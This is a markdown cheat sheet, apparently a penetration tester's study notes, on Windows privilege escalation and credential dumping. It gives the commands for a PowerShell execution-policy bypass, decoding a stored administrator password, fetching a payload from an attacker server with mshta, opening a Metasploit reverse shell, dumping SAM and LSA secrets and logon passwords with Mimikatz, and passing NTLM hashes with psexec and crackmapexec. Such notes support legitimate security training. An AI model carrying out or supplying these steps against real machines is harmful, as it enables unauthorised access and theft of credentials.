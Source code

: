 # PowerUp.ps1

- Download url - https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- `powershell -ep bypass` (PowerShell execution policy bypass)
	- `. .\PowerUp.ps1`
	- `Invoke-PrivescAudit` - it will find misconfig files/leftover files like Unattend.xml

	![Invoke-PrivescAudit output](./images/credsdump-01.png)
	
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	$password='QWRtaW5AMTIz'
  	$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	echo $password
  	```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

**OR**

- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# Mimikatz

- in meterpreter, first, migrate to lsass.exe process.
- run hashdump in meterpreter
- syskey is used to encrypt sam db

- **load kiwi**
	- creds_all
	- lsa_dump_sam
	- lsa_dump_secrets

- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- **.\mimkatz.exe**
	- privilege::debug - should return Privilege '20' OK - This should be a standard for running mimikatz as mimikatz needs local administrator access
	- lsadump::sam
	- sekurlsa::logonpasswords

- use **windows/smb/psexec** to use hashes from hashdump as SMBPass
- set target command / native upload

- `crackmapexec smb <ip> -u <administrator> -H "ntlm_hash" -x "ipconfig"`
![crackmapexec output](./images/credsdump-02.png)